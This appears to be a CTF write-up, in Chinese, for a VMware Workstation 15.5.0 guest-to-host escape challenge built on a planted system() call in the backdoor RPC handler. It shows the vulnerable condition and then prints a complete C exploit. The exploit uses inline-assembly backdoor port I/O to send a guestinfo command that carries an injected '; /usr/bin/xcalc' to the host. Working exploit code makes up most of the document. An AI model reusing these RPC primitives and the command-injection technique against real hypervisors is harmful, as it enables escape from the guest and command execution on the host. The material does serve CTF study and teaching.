


# 题目环境

* 宿主机/虚拟机OS：Ubuntu18.04（kernel 4.15.0-213-generic）
* vmware安装包：[VMware-Workstation-Full-15.5.0-14665864.x86_64.bundle](https://download3.vmware.com/software/wkst/file/VMware-Workstation-Full-15.5.0-14665864.x86_64.bundle)

# 题目分析

只patch了唯一一处：



当`channel->reply_remain & 0xffffffff == 3`时，会执行`system(channel->reply_buf)`：



所以只需要用`info-set guestinfo.x`和`info-get guestinfo.x`命令对，构造一个长度模4等于3的字符串就可以被执行：

```python
>>> len("1 ;  /usr/bin/xcalc") % 4
3
```

# Exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0xc9435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
}

void channel_set_len(int cookie1,int cookie2,int channel_num,int len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movl %%ecx,%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0001001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_send_data(int cookie1,int cookie2,int channel_num,int len,char *data,int *res){
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $0,%%r12\n\t"
        "1:\n\t"
        "movq %%r8,%%rbp\n\t"
        "add %%r12,%%rbp\n\t"
        "movl (%%rbp),%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0002001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "addq $4,%%r12\n\t"
        "cmpq %%r12,%%r11\n\t"
        "ja 1b\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
        );
}

void channel_recv_reply_len(int cookie1,int cookie2,int channel_num,int *len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movq %%rcx,%%r11\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0003001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "movl %%ebx,(%%r11)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11"
       );

}

void channel_recv_data(int cookie1,int cookie2,int channel_num,int offset,char *data,int *res){
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0004001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "in %%dx,%%eax\n\t"
        "add %%r11,%%rbp\n\t"
        "movl %%ebx,(%%rbp)\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
       );
}

void channel_recv_finish(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_recv_finish21(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_close(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

struct channel{
    int cookie1;
    int cookie2;
    int num;
};

void run_cmd(char *cmd) {
    struct channel tmp = { 0, };
    int res = 0, len = 0;
    char *data = NULL;

    channel_open(&tmp.cookie1, &tmp.cookie2, &tmp.num, &res);
    if(!res) {
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(tmp.cookie1, tmp.cookie2, tmp.num, strlen(cmd), &res);
    if(!res) {
        printf("fail to set len\n");
        return;
    }
    channel_send_data(tmp.cookie1, tmp.cookie2, tmp.num, strlen(cmd)+0x10, cmd, &res);

    channel_recv_reply_len(tmp.cookie1, tmp.cookie2, tmp.num, &len, &res);
    if(!res) {
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len+0x10; i += 4) {
        channel_recv_data(tmp.cookie1, tmp.cookie2, tmp.num, i, data, &res);
    }
    printf("recv data: %s\n",data);

    channel_recv_finish(tmp.cookie1, tmp.cookie2, tmp.num, &res);
    if(!res) {
        printf("fail to recv finish\n");
    }

    channel_close(tmp.cookie1, tmp.cookie2, tmp.num, &res);
    if(!res) {
        printf("fail to close channel\n");
        return;
    }
}

int main(int argc, char *argv[]) {
    /*
    >>> len("1 ;  /usr/bin/xcalc") % 4
    3
    */
    run_cmd("info-set guestinfo.cmd ;  /usr/bin/xcalc");
    run_cmd("info-get guestinfo.cmd");

    return 0;
}
```

